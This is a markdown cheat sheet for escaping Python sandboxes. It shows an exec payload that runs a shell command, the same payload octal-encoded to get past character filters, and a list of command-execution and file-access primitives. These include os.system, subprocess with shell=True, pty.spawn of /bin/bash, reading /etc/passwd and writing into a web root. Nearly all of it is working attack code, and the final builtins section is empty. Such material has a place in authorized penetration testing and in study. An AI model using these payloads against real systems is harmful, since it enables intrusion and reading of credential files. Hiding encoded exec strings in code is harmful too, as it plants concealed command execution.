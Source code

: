 # Python Sandbox

## Bypass forbidden characters

* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\160\162\151\156\164\050\047\122\103\105\047\051\073\040\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\163\171\163\164\145\155\050\047\154\163\047\051")`
* Alteratively you can convert to octal, hex, base64

## Alternative functions

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python builtins

* 

